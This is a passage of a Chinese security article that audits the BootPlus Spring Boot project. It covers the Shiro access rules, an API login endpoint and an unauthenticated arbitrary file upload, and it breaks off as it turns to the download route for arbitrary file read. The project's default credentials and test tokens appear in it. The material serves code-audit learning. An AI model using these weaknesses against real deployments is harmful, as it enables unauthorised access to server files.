# 代码审计视角揭秘：如何从0挖掘 BootPlus读取服务器任意文件漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/17144  
> **文章ID**: 17144

---

# 代码审计视角揭秘：如何从0挖掘 BootPlus读取服务器任意文件漏洞

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担**

## 环境搭建

源码  
<https://github.com/JoeyBling/bootplus>

然后导入 sql 数据



然后修改我们的配置文件

```
# https://github.com/spring-projects/spring-boot/wiki/Spring-Boot-2.0-Configuration-Changelog
# https://github.com/spring-projects/spring-boot/wiki/Spring-Boot-2.3.0-Configuration-Changelog
debug: false

server:
  port: 7878
  tomcat:
    uri-encoding: UTF-8
    basedir: /home/temp
  servlet:
    context-path: ''
    session:
      tracking-modes: cookie
      cookie:
        http-only: true
    encoding:
      enabled: true
      charset: UTF-8
      force: true
  #      force-response: true
  error:
    include-message: always
    include-binding-errors: always
    include-stacktrace: never
    include-exception: true
    path: /error

#logging:
#  level:
#    root: info
#    io.github: debug
#    #    org.springframework: warn
#    org.springframework: info

mybatis-plus:
  #  mapper-locations: classpath*:/mapper/**/*.xml
  type-aliases-package: io.github.entity
  # 自定义类型转换处理器包名
  #  type-handlers-package: io.github.common.typehandler
  check-config-location: true
  configuration:
    cache-enabled: false
    log-prefix: bootplus.dao.
    map-underscore-to-camel-case: true
  global-config:
    banner: true
    db-config:
      id-type: auto
      table-underline: true

spring:
  application:
    name: ${application.name}
  aop:
    auto: true
    proxy-target-class: true
  profiles:
    active: dev
  # 生产环境
  #    active: prd
  jackson:
    default-property-inclusion: non_null
    # 取消timestamps形式
    serialization: { WRITE_DATES_AS_TIMESTAMPS: false, WRITE_ENUMS_USING_TO_STRING: true }
    date-format: yyyy-MM-dd HH:mm:ss
    time-zone: GMT+8
  cache:
    ehcache:
      config: classpath:/ehcache-core.xml
  #    type: EHCACHE
  datasource:
    type: com.alibaba.druid.pool.DruidDataSource
    url: jdbc:mysql://localhost:3306/bootplus?serverTimezone=GMT%2B8&allowMultiQueries=true&useUnicode=true&characterEncoding=UTF-8&useSSL=false
    username: root
    password: 123456
    druid:
      #      filters: stat,wall,slf4j
      filter:
        stat:
          enabled: true
        wall:
          config:
            # 批量操作
            multi-statement-allow: true
          enabled: true
        slf4j:
          enabled: true
      initial-size: 5
      max-active: 20
      min-idle: 5
      max-wait: 60000
      pool-prepared-statements: true
      max-pool-prepared-statement-per-connection-size: 20
      min-evictable-idle-time-millis: 300000
      test-on-borrow: false
      test-on-return: false
      test-while-idle: true
      time-between-eviction-runs-millis: 60000
      connection-properties: druid.stat.mergeSql=true;druid.stat.slowSqlMillis=5000;password=${spring.datasource.password}
      validation-query: SELECT 1 FROM DUAL
      # 注册DruidFilter拦截(网络url监控统计)
      web-stat-filter:
        enabled: false
        url-pattern: /*
        exclusions: '*.js,*.gif,*.jpg,*.bmp,*.png,*.css,*.ico,/druid/*'
      # 注册DruidServlet（监控页面）
      stat-view-servlet:
        enabled: true
        url-pattern: /druid/*
        login-username: admin
        login-password: admin
        # 是否能够重置数据
        reset-enable: false
        allow: 127.0.0.1
  freemarker:
    allow-request-override: false
    cache: false
    charset: UTF-8
    content-type: text/html
    expose-request-attributes: true
    expose-session-attributes: true
    request-context-attribute: rc
    settings:
      number_format: 0.##
      # freemarker.core.Configurable#setSetting
      # freemarker.template.Configuration#setSetting
      tag_syntax: auto_detect
    suffix: .ftl
    check-template-location: true
    template-loader-path:
      - classpath:/templates/
  messages:
    encoding: UTF-8
  resources:
    static-locations:
      - classpath:/META-INF/resources/
      - classpath:/resources/
      - classpath:/statics/
      - classpath:/public/
  data:
    jpa:
      repositories:
        enabled: false
    redis:
      repositories:
        enabled: false
  redis:
    # TODO 接入
    timeout: 3000
    password: test
  servlet:
    multipart:
      max-file-size: 10MB
      max-request-size: 20MB
  # Spring Security Default user name and password
  security:
    user:
      name: admin
      password: admin
      roles: admin
  jpa:
    open-in-view: false
  quartz:
    # 覆盖已存在的任务
    overwrite-existing-jobs: true

management:
  endpoint:
    health:
      show-details: always
  server:
  #    port: 8090
  #    servlet:
  #      context-path: /monitor
  endpoints:
    web:
      # io.github.config.ActuatorWebSecurityConfig
      base-path: /admin/monitor

################################### 程序自定义配置 ###################################

application:
  name: @project.artifactId@
  version: @project.version@
  url: @project.url@
  description: @project.description@
  blog: @blog.url@
  basedir: @project.basedir@
  requestPassword: aAr9MVS9j1
  #  管理员ID
  admin-id: 1
  logs:
    level: DEBUG
    path: ${application.basedir}/../logs
  # 自定义线程池配置
  thread-pool:
    core-pool-size: 3
    max-pool-size: 2000
    queue-capacity: 200
    keep-alive-seconds: 3000
    thread-name-prefix: ${application.name:zhousiwei}-task-
  mvc:
    view-resolves:
      - {urlPath: '/',viewName: 'redirect:/admin'}
  file-config:
    # 文件上传保存路径
    upload-path: ${application.basedir}/../upload
  junit-env:
    admin-name: admin
    admin-pwd: admin
```

加载依赖后运行



## 代码审计

### 基础审计

首先寻找我们的漏洞接口



路由就这些

然后看看权限规则


这些文件都看了看，发现在我们的 ShiroConfiguration 文件中

```
@Bean(name = "shiroFilter")
public ShiroFilterFactoryBean shiroFilter(SecurityManager securityManager) {
    log.info("ShiroConfiguration.shiroFilter()");
    ShiroFilterFactoryBean shiroFilterFactoryBean = new ShiroFilterFactoryBean();
    // 必须设置 SecurityManager
    shiroFilterFactoryBean.setSecurityManager(securityManager);

    // 拦截器. 必须是LinkedHashMap，因为它必须保证有序
    Map<String, String> filterChainDefinitionMap = Maps.newLinkedHashMap();

    // 配置退出 过滤器,其中的具体的退出代码Shiro已经替我们实现了
    filterChainDefinitionMap.put("/admin/sys/logout", "logout");

    // 配置记住我或认证通过可以访问的地址
    filterChainDefinitionMap.put("/admin/index", "user");

    // <!-- 过滤链定义，从上向下顺序执行，一般将 /**放在最为下边 -->:这是一个坑呢，一不小心代码就不好使了
    // <!-- authc:所有url都必须认证通过才可以访问; anon:所有url都都可以匿名访问-->
    // noSessionCreation
    filterChainDefinitionMap.put("/statics/**", "anon");
    filterChainDefinitionMap.put("/admin/captcha.jpg", "anon");
    filterChainDefinitionMap.put("/share/qrcode", "anon");
    filterChainDefinitionMap.put("/admin/sys/login", "anon");
    filterChainDefinitionMap.put("/admin/sys/logout", "anon");
    filterChainDefinitionMap.put("/admin/**", "authc");

    // 如果不设置默认会自动寻找Web工程根目录下的"/login.jsp"页面
    shiroFilterFactoryBean.setLoginUrl("/admin/login.html");
    // 登录成功后要跳转的链接
    shiroFilterFactoryBean.setSuccessUrl("/admin/");
    // 未授权界面
    shiroFilterFactoryBean.setUnauthorizedUrl("/error.html");

    // TODO 自定义拦截器
    LinkedHashMap<String, Filter> filtersMap = Maps.newLinkedHashMap();
    // 限制同一帐号同时在线的个数
    //filtersMap.put("kickout", kickoutSessionControlFilter());
    // 统计登录人数
    shiroFilterFactoryBean.setFilters(filtersMap);

    shiroFilterFactoryBean.setFilterChainDefinitionMap(filterChainDefinitionMap);
    return shiroFilterFactoryBean;
}
```

可以看到是一个 shiro 的过滤器

我们看看我们能够访问的

```
filterChainDefinitionMap.put("/statics/**", "anon");  // 静态资源，匿名访问
filterChainDefinitionMap.put("/admin/captcha.jpg", "anon");  // 验证码，匿名访问
filterChainDefinitionMap.put("/share/qrcode", "anon");  // 共享二维码，匿名访问
filterChainDefinitionMap.put("/admin/sys/login", "anon");  // 登录接口，匿名访问
filterChainDefinitionMap.put("/admin/sys/logout", "anon");  // 退出接口，匿名访问
```

然后是需要授权的

```
filterChainDefinitionMap.put("/admin/**", "authc");
```

如果没有账号密码，那我们是不能从 admin 路由下手的

转而排除得到重点可以关注一下的路由



### API 审计

首先第一个就是我们的 API 路由

```
@RequestMapping(value = "/app", produces = MediaType.APPLICATION_JSON_VALUE)
public TransBaseResponse app(HttpServletRequest request, HttpServletResponse response,
                             TransBaseRequest transRequest, @RequestBody(required = false) String json) {
    long startTime = DateUtils.currentTimeStamp();
    TransBaseResponse transResponse = null;
    try {
        String sign = request.getHeader("sign");
        if (StringUtils.isNotBlank(json)) {
            transRequest = JSON.parseObject(json, TransBaseRequest.class);
            logger.debug("API请求访问[{}], 请求参数[{}]", transRequest.getService(), json);
        } else {
            logger.debug("API请求访问[{}], 请求参数[{}]", request.getParameter("service"),
                    toJsonString(request.getParameterMap()));
        }
        if (StringUtils.isNotBlank(sign)) {
            transRequest.setSign(sign);
        }

        transRequest.setTobj(tokenService.parseTokenObject(request));

        // 校验系统级参数
        TransferResponseHandler.validTransHeader(transRequest);

        // 设置ip地址
        String ip = transRequest.getIp();
        if (!GetIpAddress.isIPAddr(ip) || GetIpAddress.isLocalIPAddr(ip)) {
            transRequest.setIp(GetIpAddress.getIpAddress(request));
        }

        // 签名验证
        if (!appConfigService.validateSign(transRequest.getSign(), json, request.getParameterMap())) {
            // 数字签名校验错误
            throw new SysRuntimeException(AppResponseCodeConst.ERROR_SIGN);
        }

        // 接口定义校验
        if (!ApiServiceInitService.API_METHOD_MAP.containsKey(transRequest.getService())) {
            // 请求类型未定义
            throw new SysRuntimeException(AppResponseCodeConst.ERROR_SERVICE_NOT_FOUND);
        }

        // TODO：将appid、BillActor存入ThreadLocal
        // 获得业务处理对象
        ApiServiceInitService.ApiMethodHandler apiMethodHandler =
                ApiServiceInitService.API_METHOD_MAP.get(transRequest.getService());

        Class<?>[] requestTypes = apiMethodHandler.getRequestTypes();

        Object[] objects = ParameterHandler.bindRequestParams(requestTypes, request,
                response, transRequest, json);

        // 对string类型做js校验并替换
        // ParamsValidateUtil.filterScript(objects[0]);

        transResponse = (TransBaseResponse) apiMethodHandler.getHandlerMethod()
                .invoke(apiMethodHandler.getHandler(), objects);

    } catch (InvocationTargetException e) {
        // 这里自定义异常需要捕获并处理
        if (SysRuntimeException.class.isAssignableFrom(e.getTargetException().getClass())) {
            SysRuntimeException runtimeException = (SysRuntimeException) e.getTargetException();
            transResponse = TransferResponseHandler.getErrResponse(runtimeException.getCode(), runtimeException.getMsg());
        } else if (RRException.class.isAssignableFrom(e.getTargetException().getClass())) {
            RRException rrException = (RRException) e.getTargetException();
            transResponse = TransferResponseHandler.getErrResponse(
                    StringUtils.toString(rrException.getCode()), rrException.getMsg());
        } else {
            logger.error("系统错误，" + e.getMessage(), e);
            // 请求非法
            transResponse = TransferResponseHandler.getErrResponse(AppResponseCodeConst.ERROR_ILLEGAL_REQUEST);
        }
    } catch (SysRuntimeException e) {
        transResponse = TransferResponseHandler.getErrResponse(e.getCode(), e.getMsg());
    } catch (JSONException e) {
        // 参数格式错误
        transResponse = TransferResponseHandler.getErrResponse(AppResponseCodeConst.ERROR_ILLEGAL_PARAMS);
    } catch (Throwable t) {
        logger.error("[API请求] 请求非法, e={}", t.getMessage(), t);
        // 请求非法
        transResponse = TransferResponseHandler.getErrResponse(AppResponseCodeConst.ERROR_ILLEGAL_REQUEST);
    } finally {
        // 这里可以对全局进行资源处理释放等...
    }
    // 返回结果
    return writeResponse(transResponse, transRequest, startTime);
}
```

看了一下然后问问大聪明

```
解析请求参数（JSON、Header、URL 参数）。
校验参数合法性（签名验证、IP 校验、系统级参数检查）。
路由请求到具体的业务处理方法（根据 service 字段匹配对应的 API 处理方法）。
处理异常，返回标准化的错误响应。
记录日志，方便后续运维和排查问题。
```

看一下我们的服务接口

```
/**
 * @api {POST} bootplus.user.login 01.用户登录
 * @apiPermission 不需要token
 * @apiDescription 接口名：<code>bootplus.user.login</code><p/>
 * 用户登录，用传入的accessToken完成用户登录，并返回当前用户信息<p/>
 * **ADM test accessToken:**
 * 61466acb7a15d4ca2dbaacfa45fc7eb2c9af92c0f3b72aaa8d885b3b26e8c45757abd97fab3b2d996fce5c66050c0bd3dd432c6b4c603c18244798c36af22acf
 * **SYS test accessToken:**
 * 2da802d5495019986a2378eb3dd6cd95af6f1d3d94d3d9f1524c414ce50e246c57abd97fab3b2d996fce5c66050c0bd3dd432c6b4c603c18244798c36af22acf
 * @apiGroup 1.基础数据
 * @apiParam {String} accessToken 授权accessToken
 * @apiSuccess {Object(TokenObject)} obj 用户token
 * @apiSuccess {String}  obj.userId 用户id
 * @apiSuccess {String}  obj.userType 用户类型
 * @apiSuccess {String}  obj.appid 用户所属机构
 * @apiVersion 2.0.0
 * @apiSampleRequest /app
 * @apiParamExample {json} 请求示例
 * { "oper":"127.0.0.1", "appid":"1001", "random":"1234",
 * "service": "bootplus.user.login", "accessToken": "61466acb7a15d4ca2dbaacfa45fc7eb2c9af92c0f3b72aaa8d885b3b26e8c45757abd97fab3b2d996fce5c66050c0bd3dd432c6b4c603c18244798c36af22acf"
 * }
 * @apiSuccessExample {json} 响应示例
 * { "code":"0", "succ":true,
 * "obj":{"appid":"1001", "userId":"1", "userType":"ADM"}
 * }
 */
@ApiMethod(name = "bootplus.user.login")
public TransBaseResponse login(TransAppLoginRequest request, HttpServletResponse resp) {
    // 执行校验
    TransBaseResponse response = Validate4Api.valid2Response(request, Lists.newArrayList(
            Validate4ApiRule.required("accessToken", "accessToken")
    ));
    if (null != response) {
        return response;
    }

    return TransBaseResponse.builder()
            .code(ResponseCodeConst.SUCCESS)
            .obj(appTokenService.login(request.getAppid(), request.getAccessToken(), resp)).build();
}
```

输入  
accessToken：用户凭证，用于身份认证。  
appid：应用 ID。  
其他系统级参数（如 random、oper 等）。

应该是用于检验用户登录的 api

大概的请求类似于

```
{
  "oper": "127.0.0.1",
  "appid": "1001",
  "random": "1234",
  "service": "bootplus.user.login",
  "accessToken": "61466acb7a15d4ca2dbaacfa45fc7eb2c9af92c0f3b72aaa8d885b3b26e8c45757abd97fab3b2d996fce5c66050c0bd3dd432c6b4c603c18244798c36af22acf"
}
```

然后返回

```
{
  "code": "0",
  "succ": true,
  "obj": {
    "appid": "1001",
    "userId": "1",
    "userType": "ADM"
  }
}
```

对我们来说利用空间很小

### QrCode 审计

然后还有一个 QrCodeController

```
@MyLog
@RequestMapping(value = {"", "/"}, method = RequestMethod.GET)
public void qrCode(@RequestParam(required = false, value = "w", defaultValue = "200") Integer width,
                   @RequestParam(required = false, value = "h", defaultValue = "200") Integer height,
                   @RequestParam(required = false, defaultValue = "https://github.com/JoeyBling") String text,
                   HttpServletResponse response) throws IOException, WriterException {
    response.setHeader(HttpHeaders.CACHE_CONTROL, "no-store, no-cache");
    // MediaType.IMAGE_JPEG_VALUE
    response.setContentType(MediaType.IMAGE_PNG_VALUE);
    Map<EncodeHintType, Object> hints = Maps.newConcurrentMap();
    // 生成二维码
    hints.put(EncodeHintType.CHARACTER_SET, DEFAULT_CHARSET.name());
    // 容错级别，H是最高
    hints.put(EncodeHintType.ERROR_CORRECTION, ErrorCorrectionLevel.H);
    // 上线左右的空白边距
    hints.put(EncodeHintType.MARGIN, 3);
    BitMatrix bitMatrix = multiFormatWriter.encode(text,
            BarcodeFormat.QR_CODE, width, height, hints);
    BufferedImage bufferedImage = QrCodeUtil.toBufferedImage(bitMatrix);
    try (ServletOutputStream out = response.getOutputStream()) {
        // MatrixToImageWriter.writeToStream(bitMatrix, "png", out);
        ImageIO.write(bufferedImage, "png", out);
    }
}
```

生成二维码的，没有实际作用

### 任意文件上传

只有最后一个路由了 SysFileController，光看就是和文件操作相关联的



上传下载

访问了一下路由



可以上传文件

我们首先自己写一个前端

```
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
            text-align: center;
        }
        #uploadForm {
            margin-top: 20px;
        }
        #response {
            margin-top: 20px;
            color: green;
        }
    </style>
</head>
<body>
    <h2>上传文件到服务器</h2>
    <form id="uploadForm">
        <input type="file" id="fileInput" required>
        <button type="submit">上传文件</button>
    </form>
    <p id="response"></p>
    <script>
        document.getElementById("uploadForm").addEventListener("submit", function(event) {
            event.preventDefault(); // 阻止默认提交行为

            const fileInput = document.getElementById("fileInput");
            if (!fileInput.files.length) {
                alert("请选择一个文件！");
                return;
            }

            const formData = new FormData();
            formData.append("file", fileInput.files[0]);

            fetch("http://127.0.0.1:7878/file/upload", {
                method: "POST",
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("response").textContent = "上传成功: " + JSON.stringify(data);
            })
            .catch(error => {
                document.getElementById("response").textContent = "上传失败: " + error;
                document.getElementById("response").style.color = "red";
            });
        });
    </script>
</body>
</html>
```



```
public R upload(Integer uploadType, HttpServletRequest request) throws Exception {
    MultipartHttpServletRequest multipartRequest;
    // 判断request是否有文件上传
    if (ServletFileUpload.isMultipartContent(request)) {
        multipartRequest = (MultipartHttpServletRequest) request;
    } else {
        return R.error("请先选择上传的文件");
    }
    // 存入数据库的相对路径
    String fileContextPath = null;
    Iterator<String> ite = multipartRequest.getFileNames();
    while (ite.hasNext()) {
        MultipartFile file = multipartRequest.getFile(ite.next());
        // 判断上传的文件是否为空
        if (file == null) {
            return R.error("上传文件为空");
        }
        // request.getServletContext().getRealPath(uploadPath)
        // 如果打成了jar包，Linux路径会变成/tmp/tomcat-docbase.*.*/
        String fileName = file.getOriginalFilename();
        logger.info("上传的文件原名称:{}", fileName);
        // 上传文件类型
        String fileType = fileName.indexOf(".") != -1
                ? fileName.substring(fileName.lastIndexOf(".") + 1) : null;

        logger.info("上传文件类型:{}", StringUtils.defaultString(fileType));
        // 自定义的文件名称
        String trueFileName = getTrueFileName(fileName, uploadType);
        // 防止火狐等浏览器不显示图片
        fileContextPath = FileUtils.generateFileUrl(
                MyWebAppConfigurer.FILE_UPLOAD_PATH_EXT, trueFileName);
        // 上传文件保存的路径
        String uploadPath = FileUtils.generateFileUrl(
                applicationProperties.getFileConfig().getUploadPath(), trueFileName);
        logger.debug("存放文件的路径:{}", uploadPath);
        // 上传文件后的保存路径
        File fileUpload = FileUtils.getFile(uploadPath);

        // 创建父级目录(Linux需要注意启动用户的权限问题)
        FileUtils.forceMkdirParent(fileUpload);

        file.transferTo(fileUpload);
        // 进行文件处理
        fileHandle(fileUpload);
        // 这里暂时只能上传一个文件
        break;
    }
    return R.ok().put("filePath", fileContextPath);
}
```

没有特别之处，虽然可以上传任意的文件，也算是任意文件上传了

### 任意文件读取

我们看到 download 路由

```
@RequestMapping("/download")
public void download(@RequestParam("name") String fileName, Boolean real, HttpServletRequest request,
                     HttpServletResponse response) throws IOException {
    if (null == fileName) {
        throw new RRException("未找到资源");
    }
    // 默认编码
    request.setCharacterEncoding(DEFAULT_CHARSET.name());
    BufferedInputStream bis = null;
